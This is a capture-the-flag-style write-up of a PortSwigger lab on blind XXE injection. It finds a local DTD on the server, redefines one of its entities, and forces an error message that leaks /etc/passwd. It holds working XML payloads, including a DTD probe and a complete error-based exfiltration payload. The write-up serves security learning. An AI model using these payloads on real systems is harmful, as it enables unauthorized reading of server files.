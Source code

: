 # Exploiting XXE to retrieve data by repurposing a local DTD | Dec 25, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd), you'll learn: Exploiting XXE to retrieve data by repurposing a local DTD! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073630.png)

In previous labs, we found that **there is an XXE injection vulnerability in "Check stock" feature, which parses XML input.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073702.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073715.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073802.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

However, it does not display the result, which indicates that this is a blind XXE injection.

**To exploit blind XXE injection, we could leverage a local DTD.**

But first, we need to locate a suitable DTD.

**To do so, we can enumerate local DTD files via:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///file.dtd"> %local_dtd; ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's try `/usr/share/yelp/dtd/docbookx.dtd`, which is a common DTD file in GNOME desktop environment:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225074809.png)

**Hmm... No error. What if I provide an invalid DTD file?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225074839.png)

The web server couldn't find that DTD file.

So, let's use `/usr/share/yelp/dtd/docbookx.dtd` as our local DTD file!

**Next, let's inspect that file:**
```xml
<!ENTITY % ISOamsa PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Arrow Relations//EN//XML"
"isoamsa.ent">
<!ENTITY % ISOamsb PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Binary Operators//EN//XML"
"isoamsb.ent">
<!ENTITY % ISOamsc PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Delimiters//EN//XML"
"isoamsc.ent">
<!ENTITY % ISOamsn PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Negated Relations//EN//XML"
"isoamsn.ent">
<!ENTITY % ISOamso PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Ordinary//EN//XML"
"isoamso.ent">
<!ENTITY % ISOamsr PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Relations//EN//XML"
"isoamsr.ent">
<!ENTITY % ISObox PUBLIC
"ISO 8879:1986//ENTITIES Box and Line Drawing//EN//XML"
"isobox.ent">
<!ENTITY % ISOcyr1 PUBLIC
"ISO 8879:1986//ENTITIES Russian Cyrillic//EN//XML"
"isocyr1.ent">
<!ENTITY % ISOcyr2 PUBLIC
"ISO 8879:1986//ENTITIES Non-Russian Cyrillic//EN//XML"
"isocyr2.ent">
<!ENTITY % ISOdia PUBLIC
"ISO 8879:1986//ENTITIES Diacritical Marks//EN//XML"
"isodia.ent">
<!ENTITY % ISOgrk1 PUBLIC
"ISO 8879:1986//ENTITIES Greek Letters//EN//XML"
"isogrk1.ent">
<!ENTITY % ISOgrk2 PUBLIC
"ISO 8879:1986//ENTITIES Monotoniko Greek//EN//XML"
"isogrk2.ent">
<!ENTITY % ISOgrk3 PUBLIC
"ISO 8879:1986//ENTITIES Greek Symbols//EN//XML"
"isogrk3.ent">
<!ENTITY % ISOgrk4 PUBLIC
"ISO 8879:1986//ENTITIES Alternative Greek Symbols//EN//XML"
"isogrk4.ent">
<!ENTITY % ISOlat1 PUBLIC
"ISO 8879:1986//ENTITIES Added Latin 1//EN//XML"
"isolat1.ent">
<!ENTITY % ISOlat2 PUBLIC
"ISO 8879:1986//ENTITIES Added Latin 2//EN//XML"
"isolat2.ent">
<!ENTITY % ISOnum PUBLIC
"ISO 8879:1986//ENTITIES Numeric and Special Graphic//EN//XML"
"isonum.ent">
<!ENTITY % ISOpub PUBLIC
"ISO 8879:1986//ENTITIES Publishing//EN//XML"
"isopub.ent">
<!ENTITY % ISOtech PUBLIC
"ISO 8879:1986//ENTITIES General Technical//EN//XML"
"isotech.ent">
%ISOamsa;
%ISOamsb;
%ISOamsc;
%ISOamsn;
%ISOamso;
%ISOamsr;
%ISObox;
%ISOcyr1;
%ISOcyr2;
%ISOdia;
%ISOgrk1;
%ISOgrk2;
%ISOgrk3;
%ISOgrk4;
%ISOlat1;
%ISOlat2;
%ISOnum;
%ISOpub;
%ISOtech;
```

As you can see, it contains **entities called `ISOxxxx`.**

**Then, we can repurpose one of those entities!**

**Let's pick `ISOamso`:**
```xml
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

**The above XXE payload will:**

- Define an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefine the XML parameter entity called `ISOamso`, which is already defined in the external DTD file. The entity is redefined as containing the [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Use the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

**Complete payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's send our payload!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225075716.png)

Boom! We did it!

# What we've learned:

1. Exploiting XXE to retrieve data by repurposing a local DTD